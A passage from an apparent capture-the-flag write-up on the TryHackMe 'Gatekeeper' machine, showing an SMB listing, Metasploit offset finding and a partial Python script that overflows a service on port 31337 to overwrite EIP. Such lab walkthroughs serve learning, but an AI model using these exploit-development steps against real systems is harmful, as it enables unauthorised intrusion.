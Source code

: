```bash
dismb: \Share\> dir
  .                                   D        0  Fri May 15 13:58:07 2020
  ..                                  D        0  Fri May 15 13:58:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 17:27:17 2020

                7863807 blocks of size 4096. 3874921 blocks available
smb: \Share\> exit
```

Downloaded `gatekeeper.exe`, ran it on win7 box, but had to install M$ visual studio C++ (vc_redist.x86.exe) to get the program working.

## EXPLOIT

### Buffer Overflow Development

The scenario here is we have a target machine at THM, but now we have a copy of the application we can run locally, and figure out a buffer overflow exploit/payload, which we will in turn fire at the THM machine.

### Find the Offset

:::tip

Tip from noodles: do `offset.py` script with a big-ass number, use `pattern_create.rb -l <big number>` then `pattern_offset.rb -l <big number> -q <EIP>` gives you the offset.

:::

Follow [Buffer Overflow Shortcut](/docs/hacker/bufferoverflow/resources) for the full technique.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 6700 -q 39654138                       130 ⨯
[*] Exact match at offset 146
```

### Control the EIP

Use this script to prove our offset is accurate and the EIP is overwritten with the 4x B's we put in the payload:

```python
#!/usr/bin/env python3

import socket

ip = "172.16.2.125" # note this is my local win7 vm ip address.
port = 31337

offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""

buffer = overflow + retn + padding + payload + postfix

print("buffer=",len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Crash Overwrite EIP: 42424242...")
```